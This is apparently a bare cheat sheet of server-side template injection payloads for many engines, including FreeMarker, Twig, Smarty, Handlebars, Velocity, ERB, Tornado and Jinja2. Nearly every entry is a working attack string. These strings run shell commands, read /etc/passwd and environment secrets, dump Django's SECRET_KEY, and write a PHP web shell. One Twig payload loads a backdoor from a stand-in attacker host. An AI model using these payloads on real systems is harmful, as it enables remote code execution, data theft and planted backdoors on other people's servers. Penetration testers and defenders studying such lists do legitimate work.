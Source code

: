 --------------------------------------------------------------------Polyglot:
${{<%[%'"}}%\
--------------------------------------------------------------------FreeMarker (Java):
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }
--------------------------------------------------------------------
(Java):
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
--------------------------------------------------------------------
Twig (PHP):
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
--------------------------------------------------------------------
Smarty (PHP):
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
--------------------------------------------------------------------Handlebars (NodeJS):
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
--------------------------------------------------------------------Velocity:
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
-------------------------------------------------------------------
ERB (Ruby):
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
--------------------------------------------------------------------
Django Tricks (Python):
{% debug %}
{{settings.SECRET_KEY}}
--------------------------------------------------------------------
Tornado (Python):
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}
--------------------------------------------------------------------
Mojolicious (Perl):
<%= perl code %>
<% perl code %>
--------------------------------------------------------------------Flask/Jinja2: Identify:
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}
--------------------------------------------------------------------Flask/Jinja2: 
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
--------------------------------------------------------------------
Jade:
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
--------------------------------------------------------------------
Razor (.Net):
@(1+2)
@{// C# code}
--------------------------------------------------------------------